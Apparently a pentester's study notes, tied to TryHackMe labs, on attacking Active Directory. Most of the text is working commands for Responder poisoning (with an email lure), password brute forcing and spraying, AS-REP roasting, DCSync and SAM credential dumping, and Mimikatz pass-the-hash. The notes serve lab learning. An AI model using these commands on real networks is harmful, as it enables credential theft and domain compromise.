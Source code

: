 
###### example ad boxes to test on:
https://tryhackme.com/room/attacktivedirectory - Free room (no null sessions)
https://tryhackme.com/room/breachingad - Free Room (network)
https://tryhackme.com/room/adenumeration - Free Room (network)
https://tryhackme.com/room/lateralmovementandpivoting - Subs only (network)
https://tryhackme.com/room/exploitingad - Subs only (network)
https://tryhackme.com/room/persistingad - Subs only (network)

### finding the dc - in a network

##### from a windows client
 
 should be easy :D
 add something here

##### from a linux client on a windows network

If you're on a linux box in a ad network port scan for 88 to find the dc (not for red team)

### port scan

normal full nmap scan ([[../../Boxes/TryHackMe/Attacktive Directory (Done)/1 - nmap|nmap scan example]])
`nmap -p- -sC -sV -Pn 10.10.10.10`

##### common ports on a dc

53 dns
88 kerberos

139+445 smb

389 ldap
636 ldap ssl
3268 global ldap
3269 global ldap ssl

5985 rdp

### hosts file

Add all names inthe nmap scan to the `/etc/hosts` file
- Kerberos - FQDN (fully qualified domain name) of the domain controller - because tickets embed domain names and SPNs (service principal names)
- SMB - NetBIOS or DNS names - for NTLM handshakes

Examples from [[../../Boxes/TryHackMe/Attacktive Directory (Done)/1 - nmap|1 - nmap]]:
- NetBIOS name: `ATTACKTIVEDIREC`
- NetBIOS Domain name: `THM-AD`
- DNS name: `AttacktiveDirectory.spookysec.local`
- DNS Domain name: `spookysec.local`

Example line in `/etc/hosts`:
`10.10.200.51    AttacktiveDirectory.spookysec.local spookysec.local ATTACKTIVEDIREC THM-AD`

### dc time

in the nmap scan we see something like
`88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-02 21:05:34Z)`

for some things we need a similar time as the dc (within one minute)
##### syncing time from linux

`sudo rdate -n <ipmachine>`


### Listen with responder

start responder so it's there listening in the background
`sudo responder -I tun0 -wd`

- more: [[../29 - C2s, listening tools/responder|responder]] 
- examples to make people connect to responder:
	- send an e-mail with a smb link
	- get a smb link out some other way


### Basic Enumeration

##### null sessions

`nxc smb 10.10.10.10`
`nxc smb 10.10.10.10 -u '' -p ''`

`nxc smb 10.10.10.10 -u 'guest' -p ''`
`nxc smb 10.10.10.10 -u 'guest' -p '' --shares`

`smbclient -U '' -N -L //10.10.10.10` (-N = no pass)

### User... Enumeration

##### username but no password?
brute force password
`nxc smb 10.10.10.10 -u 'username' -p 'password-file'`

##### Finding user names
Is there a web page?
Files on shares (null session)?
Other ports open, like ftp?

##### [[impacket-GetNPUsers]]

`impacket-GetNPUsers spookysec.local/ -usersfile userlist.txt -no-pass -dc-ip 10.10.10.10`
- gives hashcat hash - just sent it as it is to hashcat

##### [[kerbrute]]

Enumerating users
`~/tools/kerbrute userenum -d domain.com --dc 10.10.10.10 usernames.txt` 

Password spray
`~/tools/kerbrute passwordspray -d domain.com --dc 10.10.10.10 domain_users.txt password123`

Brute force specific user
`~/tools/kerbrute bruteuser -d domain.com --dc 10.10.10.10 passwords.txt usernamehere`

Brute Force with creds pairs in file
`~/tools/kerbrute bruteforce -d domain.com --dc 10.10.10.10 creds-pairs.txt`

##### nxc smb users file brute force

`nxc smb 10.10.106.240 -u users.txt -p '' --kerberos` (req hosts file entries)
- finds vuln accounts


### Escalation - When we own a user

enum usernames
`nxc smb 10.10.10.10 -u 'sofia' -p 'mypass1' --rid-brute`
(rid is the end of the sid)

get password policy
`nxc smb 10.10.10.10 -u 'sofia' -p 'mypass1' --pass-pol`

list files on shares (can download too)
`nxc smb 10.10.10.10 -u '' -p '' -M spider_plus`

##### DNS dump

`bloodyAD --host 10.129.176.2 -d return.local -u 'return\svc-printer' -p '1edFg43012!!' get dnsDump`

##### Are 5985/5986/47001 open? [[../09 - Windows Exploration/Evil-WinRM|Evil-WinRM]]
`evil-winrm -i 10.10.10.10 -u username -p password`
(Requires admin or remote management permissions)

##### RDP
TODO!


add stuff on:
ldapsearch
impacket-owneredit
impacket-dacledit
bloodyAD

##### [[ldapdomaindump - dump domain info]]
`ldapdomaindump ldap://10.10.10.10 -u 'domain.com\\mynormaluser' -p 'mypassword'`
- check the description field from users and computers
- check if some users have logged in - might be honey pots

##### [[Bloodhound]]

clear old data:
- Go to neo4j at http://localhost:7474
- In the field containing `neo4j$`, enter `MATCH (n) DETACH DELETE n;`

on windows:
`Sharphound.exe --CollectionMethods All --Domain domain.com --ExcludeDCs`
Stealthier option:
`SharpHound.exe -c Session,LocalAdmin,Trusts,ACL `

from linux:
`bloodhound-python -u mynormaluser -p 'mypassword' -d domain.com -dc ad01.domain.com -ns 10.10.10.10 -c all`
	-c works the same as with sharphound (if you want the stealthier version)

Starting Bloodhound:
`bloodhound --no-sandbox`
- opens http://127.0.0.1:8080
- neo4j available at http://localhost:7474

##### [[../09 - Windows Exploration/impacket-secretsdump|impacket-secretsdump]]

when you have local files
`impacket-secretsdump -sam sam.hive -system system.hive "DC01$":@10.10.232.150`

when you have `dcsync` permissions
`impacket-secretsdump spookysec.local/backup:backup2517860@10.10.229.142 -just-dc`


##### if we have rdp + local admin
check for local admin
`net localgroup administrators`
with bloodhound we can see what users have current sessions on this computer and we can see if any of these users have permissions we want.
run mimikatz on the computer to dump local lsass hashes
`. .\Invoke-Mimikatz.ps1`
`Invoke-Mimikatz`
if we get a hash from a high priv user on the domain we can start a new ps as this user
`Invoke-Mimikatz -command '"sekurlsa::pth /user:privusername /domain:domain.com /ntlm:thehashwegot /run:powershell.exe"'`






### If we got nowhere

[[pentest ad SVG]]
[[Links (AD)]]
...
